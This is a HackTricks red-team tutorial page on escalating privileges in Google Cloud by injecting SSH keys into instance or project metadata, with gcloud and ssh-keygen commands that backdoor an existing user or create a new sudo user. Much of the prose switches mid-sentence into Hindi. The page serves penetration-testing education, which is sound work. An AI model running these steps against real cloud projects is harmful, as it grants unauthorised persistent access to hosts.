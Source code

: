 # GCP - Add Custom SSH Metadata

## GCP - Add Custom SSH Metadata

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Modifying the metadata <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

Metadata modification on an instance could lead to **महत्वपूर्ण सुरक्षा जोखिम यदि एक हमलावर आवश्यक अनुमतियाँ प्राप्त करता है**.

#### **Incorporation of SSH Keys into Custom Metadata**

On GCP, **Linux systems** often execute scripts from the [Python Linux Guest Environment for Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). A critical component of this is the [accounts daemon](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), which is designed to **नियमित रूप से जांचना** the instance metadata endpoint for **अधिकृत SSH सार्वजनिक कुंजियों के लिए अपडेट**.

Therefore, if an attacker can modify custom metadata, he could make the the daemon find a new public key, which will processed and **स्थानीय प्रणाली में एकीकृत किया जाएगा**. The key will be added into `~/.ssh/authorized_keys` file of an **मौजूदा उपयोगकर्ता या संभावित रूप से `sudo` अनुमतियों के साथ एक नया उपयोगकर्ता बनाना**, depending on the key's format. And the attacker will be able to compromise the host.

#### **Add SSH key to existing privileged user**

1. **Examine Existing SSH Keys on the Instance:**
*   Execute the command to describe the instance and its metadata to locate existing SSH keys. The relevant section in the output will be under `metadata`, specifically the `ssh-keys` key.

```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
* Pay attention to the format of the SSH keys: the username precedes the key, separated by a colon.
2. **Prepare a Text File for SSH Key Metadata:**
* Save the details of usernames and their corresponding SSH keys into a text file named `meta.txt`. This is essential for preserving the existing keys while adding new ones.
3. **Generate a New SSH Key for the Target User (`alice` in this example):**
*   Use the `ssh-keygen` command to generate a new SSH key, ensuring that the comment field (`-C`) matches the target username.

```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
* Add the new public key to `meta.txt`, mimicking the format found in the instance's metadata.
4. **Update the Instance's SSH Key Metadata:**
*   Apply the updated SSH key metadata to the instance using the `gcloud compute instances add-metadata` command.

```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```
5. **Access the Instance Using the New SSH Key:**
*   Connect to the instance with SSH using the new key, accessing the shell in the context of the target user (`alice` in this example).

```bash
ssh -i ./key alice@localhost
sudo id
```

#### **Create a new privileged user and add a SSH key**

If no interesting user is found, it's possible to create a new one which will be given `sudo` privileges:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
#### SSH keys at project level <a href="#sshing-around" id="sshing-around"></a>

यह संभव है कि SSH पहुंच को क्लाउड वातावरण में कई वर्चुअल मशीनों (VMs) तक बढ़ाया जा सके **परियोजना स्तर पर SSH कुंजी लागू करके**। यह दृष्टिकोण परियोजना के भीतर किसी भी उदाहरण तक SSH पहुंच की अनुमति देता है जिसने स्पष्ट रूप से परियोजना-व्यापी SSH कुंजी को अवरुद्ध नहीं किया है। यहाँ एक संक्षिप्त मार्गदर्शिका है:

1. **परियोजना स्तर पर SSH कुंजी लागू करें:**
*   `gcloud compute project-info add-metadata` कमांड का उपयोग करके `meta.txt` से SSH कुंजी को परियोजना के मेटाडेटा में जोड़ें। यह क्रिया सुनिश्चित करती है कि SSH कुंजी परियोजना में सभी VMs के बीच मान्यता प्राप्त हैं, जब तक कि किसी VM में "ब्लॉक प्रोजेक्ट-व्यापी SSH कुंजी" विकल्प सक्षम नहीं है।

```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```
2. **परियोजना-व्यापी कुंजी का उपयोग करके उदाहरणों में SSH करें:**
* परियोजना-व्यापी SSH कुंजी लागू होने के साथ, आप परियोजना के भीतर किसी भी उदाहरण में SSH कर सकते हैं। जो उदाहरण परियोजना-व्यापी कुंजी को अवरुद्ध नहीं करते हैं, वे SSH कुंजी को स्वीकार करेंगे, जिससे पहुंच प्राप्त होगी।
* किसी उदाहरण में SSH करने का एक सीधा तरीका `gcloud compute ssh [INSTANCE]` कमांड का उपयोग करना है। यह कमांड आपके वर्तमान उपयोगकर्ता नाम और परियोजना स्तर पर सेट की गई SSH कुंजी का उपयोग करके पहुंच प्राप्त करने का प्रयास करता है।

## References

* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
